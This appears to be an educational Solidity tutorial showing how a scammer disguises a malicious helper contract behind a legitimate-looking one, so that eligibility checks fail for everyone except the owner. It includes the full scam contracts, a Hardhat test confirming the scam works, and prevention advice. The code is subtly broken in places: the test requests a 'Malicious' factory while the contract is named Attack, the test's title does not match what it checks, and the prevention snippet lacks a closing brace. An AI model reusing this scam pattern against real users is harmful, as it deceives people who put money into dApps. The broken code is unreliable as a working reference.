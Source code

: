 # 👎 Genuine looking malicious contracts through external helpers

In the crypto world, you will often hear about how contracts which looked legitimate were the reason behind a big scam. How are hackers able to execute malicious code from a legitimate looking contract?

We will learn one method today 👀

## 👀 What will happen?

There will be three contracts - `Attack.sol`, `Helper.sol` and `Good.sol`. User will be able to enter an eligibility list using `Good.sol` which will further call `Helper.sol` to keep track of all the users which are eligible.

`Attack.sol` will be designed in such a way that eligibility list can be manipulated, lets see how 👀

## ⚒️ Build

### Setting up Hardhat

> Note
> All of these commands should work smoothly .
> If you are on windows and face Errors Like `Cannot read properties of null (reading 'pickAlgorithm')`
> Try Clearing the NPM cache using `npm cache clear --force`.

Start by creating a new project directory.

```bash
mkdir malicious-contracts
```

Let's start setting up Hardhat inside the `malicious-contracts` directory.

```bash
cd malicious-contracts
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

### Writing the smart contracts

Start by creating a new file inside the `contracts` directory called `Good.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;
import "./Helper.sol";

contract Good {
    Helper helper;
    constructor(address _helper) payable {
        helper = Helper(_helper);
    }

    function isUserEligible() public view returns(bool) {
        return helper.isUserEligible(msg.sender);
    }

    function addUserToList() public  {
        helper.setUserEligible(msg.sender);
    }

    fallback() external {}

}
```

After creating `Good.sol`, create a new file inside the `contracts` directory named `Helper.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Helper {
    mapping(address => bool) userEligible;

    function isUserEligible(address user) public view returns(bool) {
        return userEligible[user];
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
```

The last contract that we will create inside the `contracts` directory is `Malicious.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Attack {
    address owner;
    mapping(address => bool) userEligible;

    constructor() {
        owner = msg.sender;
    }

    function isUserEligible(address user) public view returns(bool) {
        if(user == owner) {
            return true;
        }
        return false;
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
```

You will notice that the fact about `Malicious.sol` is that it will generate the same ABI as `Helper.sol` eventhough it has different code within it. This is because ABI only contains function definitions for public variables, functions and events. So `Malicious.sol` can be typecasted as `Helper.sol`.

Now because `Malicious.sol` can be typecasted as `Helper.sol`, a malicious owner can deploy `Good.sol` with the address of `Malicious.sol` instead of `Helper.sol` and users will believe that he is indeed using `Helper.sol` to create the eligibility list.

In our case, the scam will happen as follows. The scammer will first deploy `Good.sol` with the address of `Malicious.sol`. Then when the user will enter the eligibility list using `addUserToList` function which will work fine because the code for this function is same within `Helper.sol` and `Attack.sol`.

The true colours will be observed when the user will try to call `isUserEligible` with his address because now this function will always return `false` because it calls `Malicious.sol`'s `isUserEligible` function which always returns `false` except when its the owner itself, which was not supposed to happen.

### Writing the test

Lets try to write a test and see if this scam actually works, create a new file inside the `test` folder named `attack.js`

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Malicious External Contract", function () {
  it("Should change the owner of the Good contract", async function () {
    // Deploy the Malicious contract
    const Malicious = await ethers.getContractFactory("Malicious");
    const maliciousContract = await Malicious.deploy();
    await maliciousContract.deployed();
    console.log("Malicious Contract's Address", maliciousContract.address);

    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.deploy(maliciousContract.address, {
      value: ethers.utils.parseEther("3"),
    });
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    const [_, addr1] = await ethers.getSigners();
    // Now lets add an address to the eligibility list
    let tx = await goodContract.connect(addr1).addUserToList();
    await tx.wait();

    // check if the user is eligible
    const eligible = await goodContract.connect(addr1).isUserEligible();
    expect(eligible).to.equal(false);
  });
});
```

### Testing the attack

To run this test, open up your terminal pointing to the root of the directory for this level and execute this command:

```bash
npx hardhat test
```

If all your tests passed, this means that the scam was successful and that the user will never be determined eligible.

## 👮 Prevention

Make the address of the external contract public and also get your external contract verified so that all users can view the code

Create a new contract, instead of typecasting an address into a contract inside the constructor. So instead of doing `Helper(_helper)` where you are typecasting `_helper` address into a contract which may or may not be the `Helper` contract, create an explicit new helper contract instance using `new Helper()`.

Example

```solidity
contract Good {
    Helper public helper;
    constructor() {
        helper = new Helper();
}
```

<Quiz questionId="4e4b7aa2-7d27-4f2d-b66f-d2a3a04adb27" />
<Quiz questionId="d7194a5e-fe17-420f-8dc8-1789665d0fe5" />

Wow, lots of learning right? 🤯

Beaware of scammers, you might need to double check the code of a new dApp you want to put money in.

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
